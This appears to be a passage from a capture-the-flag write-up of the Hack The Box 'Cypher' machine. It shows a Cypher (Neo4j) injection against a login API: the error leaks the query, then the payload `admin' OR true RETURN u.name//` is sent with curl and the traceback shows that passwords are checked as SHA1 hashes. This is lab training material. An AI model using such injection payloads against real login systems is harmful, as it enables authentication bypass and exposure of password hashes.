 ```
    raise Neo4jError.hydrate(**metadata)
neo4j.exceptions.CypherSyntaxError: {code: Neo.ClientError.Statement.SyntaxError} {message: Failed to parse string literal. The query must contain an even number of non-escaped quotes. (line 1, column 60 (offset: 59))
"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'admin'' return h.value as hash"
                                                            ^}
```

The interesting part is that the query returns the password hash, possibly to check it later.

```cypher
MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'admin'' return h.value as hash
```

Sending the payload `admin' OR true RETURN u.name//`: 
- the first part is similar to `admin' OR 1=1` in SQLi which will always be true and allow login.
- the second part will return the username and not the password hash as expected.  The payload ends with `//` to comment out the remaining query.

After the injection the query on the server will look like this:

```cypher
MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'admin' OR true RETURN u.name//' return h.value as hash
```

The response shows what I expected;  that the password hash is verified in the `verify_creds` function.  

```
fcoomans@kali:~/htb/cypher$ curl -s -X POST -H 'Content-Type: application/json' --data-binary "{\"username\":\"admin' OR true RETURN u.name//\",\"password\":\"admin\"}" http://cypher.htb/api/auth
Traceback (most recent call last):
  File "/app/app.py", line 144, in verify_creds
    db_hash = results[0]["hash"]
KeyError: 'hash'

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/app/app.py", line 165, in login
    creds_valid = verify_creds(username, password)
  File "/app/app.py", line 151, in verify_creds
    raise ValueError(f"Invalid cypher query: {cypher}: {traceback.format_exc()}")
ValueError: Invalid cypher query: MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'admin' OR true RETURN u.name//' return h.value as hash: Traceback (most recent call last):
  File "/app/app.py", line 144, in verify_creds
    db_hash = results[0]["hash"]
KeyError: 'hash'
```

The cypher query shown that shown also tells me that the password hash is a simple `sha1` hash.

```cypher
MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'admin' OR true RETURN u.name//' return h.value as hash
```
